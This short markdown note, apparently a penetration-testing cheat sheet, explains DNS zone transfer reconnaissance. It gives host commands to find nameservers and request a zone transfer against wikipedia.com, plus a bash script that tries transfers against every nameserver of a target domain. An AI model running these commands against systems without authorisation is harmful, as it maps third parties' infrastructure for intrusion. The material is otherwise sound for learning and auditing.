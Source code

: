 # DNS Zone Transfer Attack

## Overview

* sometimes DNS servers are misconfigured
* DNS servers contain a Zone File which It uses to replicate the map of the domain
* they should be configured so that only the replicating DNS server can access it
* if misconfigured so anyone can request the Zone File, you can receive the whole list of subdomains which is rare in the wild



## Figure out which DNS server a domain has

```bash
host -t ns wikipedia.com
#results may say ns1, ns2, ns3, etc
```

### Additionally, These Tools will Help

* dnsrecon
* dnsenum

## Zone Transfer Command

```bash
#host -l domain_name dns_server_address
host -l wikipedia.com ns1.wikipedia.com
```

## Bash Scripts

```bash
#get all DNS servers from a host
host -t ns wikipedia.com | cut -d " " -f 4

######################attempts zone transfers from all nameservers
#!/bin/bash

#Simple Zone Transfer Script
if [ -z "$1" ]; then
  echo "[*] Simple Zone transfer script"
  echo "[*] Example : $0 <example.com> "
  exit 0
fi

#if argument was given...

for server in $(host -t ns $1 | cut -d " " -f4); do
  #For each of these servers, attempt a zone transfer
  host -l $1 $server |grep "has address"
done
```

## Link to Go More in Depth

[https://security.stackexchange.com/questions/10452/dns-zone-transfer-attack](https://security.stackexchange.com/questions/10452/dns-zone-transfer-attack)
